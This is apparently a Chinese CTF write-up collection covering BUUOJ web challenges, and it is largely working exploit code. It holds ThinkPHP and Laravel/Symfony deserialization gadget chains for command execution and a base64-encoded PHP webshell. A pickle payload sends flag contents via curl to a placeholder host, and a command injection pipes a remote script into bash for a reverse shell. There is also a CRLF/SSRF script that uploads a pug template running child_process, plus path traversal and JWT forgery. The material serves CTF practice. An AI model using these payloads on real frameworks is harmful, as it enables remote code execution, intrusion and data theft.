        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

懒得写了, 这种题没啥意思...

```
http://7bd20883-8035-4fe3-9e2f-9acbb9f5e063.node4.buuoj.cn:81/?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat /flag
```

## [GWCTF 2019]你的名字

简单 flask ssti

```
name=
```

## virink_2019_files_share

很怪, 访问 `/upload` 会卡住, 但 `/upload/` 就没问题

之后是一个任意文件读取, 过滤规则有点奇怪

```
/preview?f=....//....//....//....//....//....//....//....//f1ag_Is_h3reee//flag
```

## [网鼎杯 2020 青龙组]filejava

文件上传点 `/UploadServlet`, 上传后会返回下载链接

```
/DownloadServlet?filename=c41257bd-c13b-41c2-95c6-f74ffd733c71_2.png
```

存在任意文件下载, 将 fiename 置空能得到 tomcat 报错信息


报错信息中泄露了物理路径, 然后目录穿越到 WEB-INF 目录下载 web.xml

```
/DownloadServlet?filename=../../../web.xml
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/DownloadServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>ListFileServlet</servlet-name>
        <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>ListFileServlet</servlet-name>
        <url-pattern>/ListFileServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>UploadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>UploadServlet</servlet-name>
        <url-pattern>/UploadServlet</url-pattern>
    </servlet-mapping>
</web-app>
```

继续下载对应 servlet

DownloadServlet

```java
import cn.abc.servlet.DownloadServlet;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.net.URLEncoder;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class DownloadServlet extends HttpServlet {
  private static final long serialVersionUID = 1L;
  
  protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    doPost(request, response);
  }
  
  protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String fileName = request.getParameter("filename");
    fileName = new String(fileName.getBytes("ISO8859-1"), "UTF-8");
    System.out.println("filename=" + fileName);
    if (fileName != null && fileName.toLowerCase().contains("flag")) {
      request.setAttribute("message", ");
      request.getRequestDispatcher("/message.jsp").forward((ServletRequest)request, (ServletResponse)response);
      return;
    } 
    String fileSaveRootPath = getServletContext().getRealPath("/WEB-INF/upload");
    String path = findFileSavePathByFileName(fileName, fileSaveRootPath);
    File file = new File(path + "/" + fileName);
    if (!file.exists()) {
      request.setAttribute("message", ");
      request.getRequestDispatcher("/message.jsp").forward((ServletRequest)request, (ServletResponse)response);
      return;
    } 
    String realname = fileName.substring(fileName.indexOf("_") + 1);
    response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(realname, "UTF-8"));
    FileInputStream in = new FileInputStream(path + "/" + fileName);
    ServletOutputStream out = response.getOutputStream();
    byte[] buffer = new byte[1024];
    int len = 0;
    while ((len = in.read(buffer)) > 0)
      out.write(buffer, 0, len); 
    in.close();
    out.close();
  }
  
  public String findFileSavePathByFileName(String filename, String saveRootPath) {
    int hashCode = filename.hashCode();
    int dir1 = hashCode & 0xF;
    int dir2 = (hashCode & 0xF0) >> 4;
    String dir = saveRootPath + "/" + dir1 + "/" + dir2;
    File file = new File(dir);
    if (!file.exists())
      file.mkdirs(); 
    return dir;
  }
}
```

ListFileServlet

```java
import cn.abc.servlet.ListFileServlet;
import java.io.IOException;
import java.util.HashMap;
import java.util.Map;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class ListFileServlet extends HttpServlet {
  private static final long serialVersionUID = 1L;
  
  protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    doPost(request, response);
  }
  
  protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String uploadFilePath = getServletContext().getRealPath("/WEB-INF/upload");
    Map<String, String> fileNameMap = new HashMap<>();
    String saveFilename = (String)request.getAttribute("saveFilename");
    String filename = (String)request.getAttribute("filename");
    System.out.println("saveFilename" + saveFilename);
    System.out.println("filename" + filename);
    String realName = saveFilename.substring(saveFilename.indexOf("_") + 1);
    fileNameMap.put(saveFilename, filename);
    request.setAttribute("fileNameMap", fileNameMap);
    request.getRequestDispatcher("/listfile.jsp").forward((ServletRequest)request, (ServletResponse)response);
  }
}
```

UploadServlet

```java
import cn.abc.servlet.UploadServlet;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.util.List;
import java.util.UUID;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.fileupload.FileItem;
import org.apache.commons.fileupload.FileItemFactory;
import org.apache.commons.fileupload.FileUploadException;
import org.apache.commons.fileupload.disk.DiskFileItemFactory;
import org.apache.commons.fileupload.servlet.ServletFileUpload;
import org.apache.poi.openxml4j.exceptions.InvalidFormatException;
import org.apache.poi.ss.usermodel.Sheet;
import org.apache.poi.ss.usermodel.Workbook;
import org.apache.poi.ss.usermodel.WorkbookFactory;

public class UploadServlet extends HttpServlet {
  private static final long serialVersionUID = 1L;
  
  protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    doPost(request, response);
  }
  
  protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String savePath = getServletContext().getRealPath("/WEB-INF/upload");
    String tempPath = getServletContext().getRealPath("/WEB-INF/temp");
    File tempFile = new File(tempPath);
    if (!tempFile.exists())
      tempFile.mkdir(); 
    String message = "";
    try {
      DiskFileItemFactory factory = new DiskFileItemFactory();
      factory.setSizeThreshold(102400);
      factory.setRepository(tempFile);
      ServletFileUpload upload = new ServletFileUpload((FileItemFactory)factory);
      upload.setHeaderEncoding("UTF-8");
      upload.setFileSizeMax(1048576L);
      upload.setSizeMax(10485760L);
      if (!ServletFileUpload.isMultipartContent(request))
        return; 
      List<FileItem> list = upload.parseRequest(request);
      for (FileItem fileItem : list) {
        if (fileItem.isFormField()) {
          String name = fileItem.getFieldName();
          String str = fileItem.getString("UTF-8");
          continue;
        } 
        String filename = fileItem.getName();
        if (filename == null || filename.trim().equals(""))
          continue; 
        String fileExtName = filename.substring(filename.lastIndexOf(".") + 1);
        InputStream in = fileItem.getInputStream();
        if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
        String saveFilename = makeFileName(filename);
        request.setAttribute("saveFilename", saveFilename);
        request.setAttribute("filename", filename);
        String realSavePath = makePath(saveFilename, savePath);
        FileOutputStream out = new FileOutputStream(realSavePath + "/" + saveFilename);
        byte[] buffer = new byte[1024];
        int len = 0;
        while ((len = in.read(buffer)) > 0)
          out.write(buffer, 0, len); 
        in.close();
        out.close();
        message = ";
      } 
    } catch (FileUploadException e) {
      e.printStackTrace();
    } 
    request.setAttribute("message", message);
    request.getRequestDispatcher("/ListFileServlet").forward((ServletRequest)request, (ServletResponse)response);
  }
  
  private String makeFileName(String filename) {
    return UUID.randomUUID().toString() + "_" + filename;
  }
  
  private String makePath(String filename, String savePath) {
    int hashCode = filename.hashCode();
    int dir1 = hashCode & 0xF;
    int dir2 = (hashCode & 0xF0) >> 4;
    String dir = savePath + "/" + dir1 + "/" + dir2;
    File file = new File(dir);
    if (!file.exists())
      file.mkdirs(); 
    return dir;
  }
}
```

在 UploadServlet 中会检测上传的文件是否为 excel 表格, 然后会调用 WorkbookFactory 去解析表格内容 

网上搜了一下发现组件是 apache poi, 存在 xxe

参考文章: [https://xz.aliyun.com/t/6996](https://xz.aliyun.com/t/6996)

随便新建一个 xlsx 文件, 然后更改 `[Content_Types].xml` 的内容为 blind xxe payload, 最后上传即可


## [2020 新春红包题]1

```php
<?php
error_reporting(0);

class A {

    protected $store;

    protected $key;

    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);

        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }

        return $contents;
    }

    public function getForStorage() {
        $cleaned = $this->cleanContents($this->cache);

        return json_encode([$cleaned, $this->complete]);
    }

    public function save() {
        $contents = $this->getForStorage();

        $this->store->set($this->key, $contents, $this->expire);
    }

    public function __destruct() {
        if (!$this->autosave) {
            $this->save();
        }
    }
}

class B {

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }

    public function getCacheKey(string $name): string {
        // 使缓存文件名随机
        $cache_filename = $this->options['prefix'] . uniqid() . $name;
        if(substr($cache_filename, -strlen('.php')) === '.php') {
          die('?');
        }
        return $cache_filename;
    }

    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }

        $serialize = $this->options['serialize'];

        return $serialize($data);
    }

    public function set($name, $value, $expire = null): bool{
        $this->writeTimes++;

        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }

        $expire = $this->getExpireTime($expire);
        $filename = $this->getCacheKey($name);

        $dir = dirname($filename);

        if (!is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }

        $data = $this->serialize($value);

        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }

        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);

        if ($result) {
            return $filename;
        }

        return null;
    }

}

if (isset($_GET['src']))
{
    highlight_file(__FILE__);
}

$dir = "uploads/";

if (!is_dir($dir))
{
    mkdir($dir);
}
unserialize($_GET["data"]);
```

跟之前有一题一模一样, 但 getCacheKey 方法改了一下

参考文章 (才发现是 thinkphp 的链子...)

[https://www.anquanke.com/post/id/194036](https://www.anquanke.com/post/id/194036)

[https://www.zhaoj.in/read-6397.html](https://www.zhaoj.in/read-6397.html)

新学到的两个思路

第一个思路是利用 linux 中反引号的优先级来执行命令

```php
<?php

class A {

    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

}

class B {

}

$b = new B();
$b->options = array(
    'expire' => '123',
    'prefix' => '456',
    'serialize' => 'system'
);

$a = new A($b, '789', null);
$a->autosave = false;
$a->cache = [];
$a->complete = '`cat /flag > /var/www/html/flag.txt`';

echo urlencode(serialize($a));
```

serialize 指定为 system

虽然传入的参数里面包含了 json, 但由于反引号的优先级较高, 仍然是可以执行任意命令 (无回显)

第二个思路是利用 linux 目录穿越来绕过随机字符的限制, 以及通过 `/.` 绕过 `.php` 后缀检测创建文件

```php
<?php

class A {

    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

}

class B {

}

$b = new B();
$b->options = array(
    'expire' => '123',
    'prefix' => 'php://filter/write=convert.base64-decode/resource=uploads/',
    'serialize' => 'strval'
);

$a = new A($b, '/../shell.php/.', null);
$a->autosave = false;
$a->cache = [];
$a->complete = 'aaaPD9waHAgZXZhbCgkX1JFUVVFU1RbMTIzNF0pOz8+';

echo urlencode(serialize($a));
```

注意只有 uploads 目录可写, 剩下的构造跟之前那题一模一样


## [RootersCTF2019]ImgXweb

robots.txt

```
User-agent: * 
Disallow: /static/secretkey.txt
```

访问得到 secret key 为 `you-will-never-guess`

之后随便注册一个用户, 用 secret key 伪造 jwt 指定用户为 admin

然后访问 /home 查看图片源码得到 flag

## [watevrCTF-2019]Pickle Store

cookie session 参数存在 pickle 反序列化

payload

```python
base64.b64encode(b"cos\nsystem\n(S'curl http://x.x.x.x:yyyy/ -X POST -d \"`cat flag.txt`\"'\ntR.")
```

## [安洵杯 2019]iamthinking

www.zip 源码泄露

thinkphp 6.0

Controller/Index.php

```php
<?php
namespace app\controller;
use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        
        echo "";
        $paylaod = @$_GET['payload'];
        if(isset($paylaod))
        {
            $url = parse_url($_SERVER['REQUEST_URI']);
            parse_str($url['query'],$query);
            foreach($query as $value)
            {
                if(preg_match("/^O/i",$value))
                {
                    die('STOP HACKING');
                    exit();
                }
            }
            unserialize($paylaod);
        }
    }
}
```

简单绕过 `parse_url`, 然后网上随便找一条反序列化链

[https://xz.aliyun.com/t/10396](https://xz.aliyun.com/t/10396)

```php
<?php
namespace think{
    abstract class Model{
        use model\concern\Attribute;  //因为要使用里面的属性
        private $lazySave;
        private $exists;
        private $data=[];
        private $withAttr = [];
        public function __construct($obj){
            $this->lazySave = True;
            $this->withEvent = false;
            $this->exists = true;
            $this->table = $obj;
            $this->data = ['key'=>'cat /flag'];
            $this->visible = ["key"=>1];
            $this->withAttr = ['key'=>'system'];
        }
    }
}

namespace think\model\concern{
    trait Attribute
    {
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
    }

    $a = new Pivot('');
    $b = new Pivot($a);
    echo urlencode(serialize($b));
}
```


## [BSidesCF 2020]Hurdles


## [羊城杯 2020]Easyphp2

主页文件包含, cookie 先改成 `pass=GWHT`

过滤了 base64 rot13 等关键词, 两次 urlencode 绕过

```
/?file=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=GWHT.php
```

或者转成 utf-7

```
/?file=php://filter/convert.iconv.utf8.utf7/resource=GWHT.php
```

GWHT.php

```php
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>count is here</title>

    <style>

        html,
        body {
            overflow: none;
            max-height: 100vh;
        }

    </style>
</head>

<body style="height: 100vh; text-align: center; background-color: green; color: blue; display: flex; flex-direction: column; justify-content: center;">

<center> </center>

    <?php
    ini_set('max_execution_time', 5);

    if ($_COOKIE['pass'] !== getenv('PASS')) {
        setcookie('pass', 'PASS');
        die('<h2>'.'<hacker>'.'<h2>'.'<br>'.'<h1>'.'404'.'<h1>'.'<br>'.'Sorry, only people from GWHT are allowed to access this website.'.'23333');
    }
    ?>

    <h1>A Counter is here, but it has someting wrong</h1>

    <form>
        <input type="hidden" value="GWHT.php" name="file">
        <textarea style="border-radius: 1rem;" type="text" name="count" rows=10 cols=50></textarea><br />
        <input type="submit">
    </form>

    <?php
    if (isset($_GET["count"])) {
        $count = $_GET["count"];
        if(preg_match('/;|base64|rot13|base32|base16|<\?php|#/i', $count)){
        	die('hacker!');
        }
        echo "<h2>The Count is: " . exec('printf \'' . $count . '\' | wc -c') . "</h2>";
    }
    ?>

</body>

</html>
```

很明显的命令注入

```
/?file=GWHT.php&count='|`curl+x.x.x.x:yyyy/|bash`|echo+'1
```

反弹 shell 之后发现根目录下存在 /GWHT, 所属 GWHT 用户组

README md5 解密后为 `GWHTCTF`

尝试 su 切换到该用户, 然后查看 flag



## [羊城杯 2020]Blackcat

题目有点 nt, mp3 用 hex editor 打开最底下有 php 源码

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('
$clandestine = getenv("clandestine");
if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);
if($hh !== $_POST['Black-Cat-Sheriff']){
    die('
echo exec("nc".$_POST['One-ear']);
```

`hash_hmac()` 加密的数据如果为 array, 则返回的结果为 `NULL`, 然后用 `NULL` 去加密得到 `$hh`, 就可以执行任意命令了

```php
<?php
var_dump(hash_hmac('sha256', ';env', NULL));
```

```
Black-Cat-Sheriff=afd556602cf62addfe4132a81b2d62b9db1b6719f83e16cce13f51960f56791b&White-cat-monitor[]=&One-ear=;env
```


## [CISCN2019 总决赛 Day1 Web4]Laravel1

第一次正式开始挖大框架的反序列化, 感觉还挺好玩的

```php
<?php
//backup in source.tar.gz

namespace App\Http\Controllers;


class IndexController extends Controller
{
    public function index(\Illuminate\Http\Request $request){
        $payload=$request->input("payload");
        if(empty($payload)){
            highlight_file(__FILE__);
        }else{
            @unserialize($payload);
        }
    }
}
```

laravel 5.8.16

拖进 phpstorm 全局搜索 `__destruct` 方法定义

期间发现了一个类似 java classloader 的类, 但没搞明白怎么利用 (太菜了)

然后找到了两三处任意文件删除, 不过对本题来说没有什么用

最后只剩下了 TagAwareAdaper.php (其实看 laravel 的日志大概也能猜出来入口点在这)


跟进 invalidateTags 方法


可以调用任意对象的 saveDeferred 方法

全局搜索找到了 ProxyAdapter 和 PhpArrayAdapter 两个可以利用的类

先看 ProxyAdapter


存在动态函数调用

一开始以为这里不能利用, 因为 `$item` 不是 string 类型, 但搜了一下发现 system 函数可以传入两个参数


将 `result_code` 赋到 `$result_code` 变量里面, 相当于弱类型, 与 `$item` 之前是什么类型一点关系都没有

而 `setInnerItem` 和 `innerItem` 两个属性均可控, 从而造成 rce

另外一个利用点是 PhpArrayAdapter


它的 initialize 方法在 PhpArrayTrait 里面 (trait 是 php 实现多继承的一种方式)


`file` 属性可控, 造成 lfi

最后两个链子的 payload 如下, 注意用 ProxyAdapter 构造的时候两个 `poolHash` 要相同

```php
<?php

namespace Symfony\Component\Cache\Traits {
    trait PhpArrayTrait {
        private $file;
        private $keys;
        private $values;
    }
}

namespace Symfony\Component\Cache {
    final class CacheItem {

        protected $key;
        protected $value;
        protected $isHit = false;
        protected $expiry;
        protected $defaultLifetime;
        protected $metadata = [];
        protected $newMetadata = [];
        protected $innerItem;
        protected $poolHash;
        protected $isTaggable = false;

        public function __construct($poolHash, $innerItem) {
            $this->poolHash = $poolHash;
            $this->innerItem = $innerItem;
        }
    }
}

namespace Symfony\Component\Cache\Adapter {

    use Symfony\Component\Cache\Traits\PhpArrayTrait;

    class TagAwareAdapter {
    
        private $deferred = [];
        private $createCacheItem;
        private $setCacheItemTags;
        private $getTagsByKey;
        private $invalidateTags;
        private $tags;
        private $knownTagVersions = [];
        private $knownTagVersionsTtl;

        public function __construct($deferred, $pool) {
            $this->deferred = $deferred;
            $this->pool = $pool;
        }
    }

    class ProxyAdapter {

        private $namespace;
        private $namespaceLen;
        private $createCacheItem;
        private $setInnerItem;
        private $poolHash;

        public function __construct($poolHash, $setInnerItem) {
            $this->poolHash = $poolHash;
            $this->setInnerItem = $setInnerItem;
        }
    }

    class PhpArrayAdapter {
        use PhpArrayTrait;

        public function __construct($file) {
            $this->file = $file;
        }
    }
}

namespace {

    use Symfony\Component\Cache\Adapter\PhpArrayAdapter;
    use Symfony\Component\Cache\Adapter\ProxyAdapter;
    use Symfony\Component\Cache\Adapter\TagAwareAdapter;
    use Symfony\Component\Cache\CacheItem;

    // Method 1: command exec
    $item = new CacheItem('hash', 'cat /flag');
    $deferred = array('123' => $item);
    $pool = new ProxyAdapter('hash', 'system');

    // Method 2: local file include
    // $item = new CacheItem('111', '222');
    // $deferred = array('123' => $item);
    // $pool = new PhpArrayAdapter('/flag');

    $a = new TagAwareAdapter($deferred, $pool);
    echo urlencode(serialize($a));
}
?>
```


## [GYCTF2020]Node Game

```javascript
var express = require('express');
var app = express();
var fs = require('fs');
var path = require('path');
var http = require('http');
var pug = require('pug');
var morgan = require('morgan');
const multer = require('multer');


app.use(multer({dest: './dist'}).array('file'));
app.use(morgan('short'));
app.use("/uploads",express.static(path.join(__dirname, '/uploads')))
app.use("/template",express.static(path.join(__dirname, '/template')))


app.get('/', function(req, res) {
    var action = req.query.action?req.query.action:"index";
    if( action.includes("/") || action.includes("\\") ){
        res.send("Errrrr, You have been Blocked");
    }
    file = path.join(__dirname + '/template/'+ action +'.pug');
    var html = pug.renderFile(file);
    res.send(html);
});

app.post('/file_upload', function(req, res){
    var ip = req.connection.remoteAddress;
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg="only admin's ip can use it"
        res.send(JSON.stringify(obj));
        return 
    }
    fs.readFile(req.files[0].path, function(err, data){
        if(err){
            obj.msg = 'upload failed';
            res.send(JSON.stringify(obj));
        }else{
            var file_path = '/uploads/' + req.files[0].mimetype +"/";
            var file_name = req.files[0].originalname
            var dir_file = __dirname + file_path + file_name
            if(!fs.existsSync(__dirname + file_path)){
                try {
                    fs.mkdirSync(__dirname + file_path)
                } catch (error) {
                    obj.msg = "file type error";
                    res.send(JSON.stringify(obj));
                    return
                }
            }
            try {
                fs.writeFileSync(dir_file,data)
                obj = {
                    msg: 'upload success',
                    filename: file_path + file_name
                } 
            } catch (error) {
                obj.msg = 'upload failed';
            }
            res.send(JSON.stringify(obj));    
        }
    })
})

app.get('/source', function(req, res) {
    res.sendFile(path.join(__dirname + '/template/source.txt'));
});


app.get('/core', function(req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:8081/source?' + q
        console.log(url)
        var trigger = blacklist(url);
        if (trigger === true) {
            res.send("<p>error occurs!</p>");
        } else {
            try {
                http.get(url, function(resp) {
                    resp.setEncoding('utf8');
                    resp.on('error', function(err) {
                    if (err.code === "ECONNRESET") {
                     console.log("Timeout occurs");
                     return;
                    }
                   });

                    resp.on('data', function(chunk) {
                        try {
                         resps = chunk.toString();
                         res.send(resps);
                        }catch (e) {
                           res.send(e.message);
                        }
 
                    }).on('error', (e) => {
                         res.send(e.message);});
                });
            } catch (error) {
                console.log(error);
            }
        }
    } else {
        res.send("search param 'q' missing!");
    }
})

function blacklist(url) {
    var evilwords = ["global", "process","mainModule","require","root","child_process","exec","\"","'","!"];
    var arrayLen = evilwords.length;
    for (var i = 0; i < arrayLen; i++) {
        const trigger = url.includes(evilwords[i]);
        if (trigger === true) {
            return true
        }
    }
}

var server = app.listen(8081, function() {
    var host = server.address().address
    var port = server.address().port
    console.log("Example app listening at http://%s:%s", host, port)
})
```

crlf + ssrf

参考文章 [https://www.anquanke.com/post/id/240014](https://www.anquanke.com/post/id/240014)

思路是先通过 crlf 发送上传包将文件传到 template 目录下 (minetype 跨目录), 然后渲染自己的模板文件来执行任意命令

构造 payload

```python
from urllib.parse import quote

payload = ''' HTTP/1.1


POST /file_upload HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 282
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydlC8VbfVGkiZbHjJ
Connection: close

------WebKitFormBoundarydlC8VbfVGkiZbHjJ
Content-Disposition: form-data; name="file"; filename="test.pug"
Content-Type: ../template/

#{global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()}
------WebKitFormBoundarydlC8VbfVGkiZbHjJ--


GET /'''.replace('\n', '\r\n')

enc_payload = u''

for i in payload:
    enc_payload += chr(0x0100 + ord(i))

print(quote(enc_payload))
```

这里好像必须得全部转成高位 unicode 字符, 因为题目过滤了单双引号会影响正常的 http 数据包, 但是单独把这两个字符转成高位之后再上传服务器会出错, 很奇怪


## [watevrCTF-2019]Supercalc

flask 编写的在线计算器

返回的 session 中保存着 code history, 因为会回显在网页上, 所以猜测是在这里进行 ssti

但是 `secret_key` 死活爆破不出来, 输入点也过滤了很多内容, 没啥思路

最后看 wp 发现构造的 payload 是这样的

```python
1/0#{{config}}
```


得到 `secret_key` 为 `cded826a1e89925035cc05f0907855f7`

然后构造 session 执行命令查看 flag


到这里网上很多文章就已经结束了, 也没有说明为啥这种方式可以绕过...

自己去翻了翻题目的源码, 才发现题目出的很有意思

server.py

```python
import time
import traceback
import sys
from flask import Flask, render_template, session, request, render_template_string
from evalfilter import validate

app = Flask(__name__)
app.secret_key = "cded826a1e89925035cc05f0907855f7"


def format_code(code):
    if "#" in code:
        code = code[: code.index("#")]

    return code


@app.route("/", methods=["GET", "POST"])
def index():
    if not session.get("history"):
        session["history"] = []

    if request.method == "POST":
        result = validate(request.form["code"])
        if not result[0]:
            return result[1]

        session["history"].append({"code": result[1]})
        if len(session["history"]) > 5:
            session["history"] = session["history"][1:]
        session.modified = True

        try:
            eval(request.form["code"])
        except:
            error = traceback.format_exc(limit=0)[35:]
            session["history"][-1]["error"] = render_template_string(
                f'Traceback (most recent call last):\n  File "somewhere", line something, in something\n    result = {request.form["code"]}\n{error}'
            )

    history = []
    for calculation in session["history"]:
        history.append({**calculation})
        if not calculation.get("error"):
            history[-1]["result"] = eval(calculation["code"])

    return render_template("index.html", history=list(reversed(history)))


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

evalfilter.py

```python
import ast

whitelist = [
    ast.Module,
    ast.Expr,

    ast.Num,

    ast.UnaryOp,

        ast.UAdd,
        ast.USub,
        ast.Not,
        ast.Invert,

    ast.BinOp,

        ast.Add,
        ast.Sub,
        ast.Mult,
        ast.Div,
        ast.FloorDiv,
        ast.Mod,
        ast.Pow,
        ast.LShift,
        ast.RShift,
        ast.BitOr,
        ast.BitXor,
        ast.BitAnd,
        ast.MatMult,

    ast.BoolOp,

        ast.And,
        ast.Or,
    
    ast.Compare,

        ast.Eq,
        ast.NotEq,
        ast.Lt,
        ast.LtE,
        ast.Gt,
        ast.GtE,
        ast.Is,
        ast.IsNot,
        ast.In,
        ast.NotIn,

]

operators = {
    
        ast.UAdd: "+",
        ast.USub: "-",
        ast.Not: "not ",
        ast.Invert: "~",

        ast.Add: " + ",
        ast.Sub: " - ",
        ast.Mult: " * ",
        ast.Div: " / ",
